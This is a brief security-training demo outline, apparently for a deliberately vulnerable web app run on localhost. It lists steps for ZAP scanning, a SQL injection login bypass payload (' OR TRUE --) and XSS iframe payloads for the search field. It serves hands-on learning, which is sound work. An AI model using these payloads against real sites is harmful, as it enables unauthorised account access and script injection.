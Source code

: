 ### Demos

1. Browse website

```
http://localhost:3000
```
```
http://localhost:3000/#/score-board
```

2. Launch Owasp Zed Attack Proxy
    1. Run automated tests
    2. Run manual tests

3. Login with admin credentials
    1. Find out sql query
    ```
    username: '
    password: password
    ```
    2. Examine response

    3. Login through sql injection
    ```
    username: ' OR TRUE --
    password: password
    ```
4. Inject XSS attack in search
```
<iframe src="javascript:alert(`xss`)">
```

```
<iframe width="100%" height="166" scrolling="no" frameborder="no" allow="autoplay" src="https://w.soundcloud.com/player/?url=https%3A//api.soundcloud.com/tracks/771984076&color=%23ff5500&auto_play=true&hide_related=false&show_comments=true&show_user=true&show_reposts=false&show_teaser=true"></iframe>
```


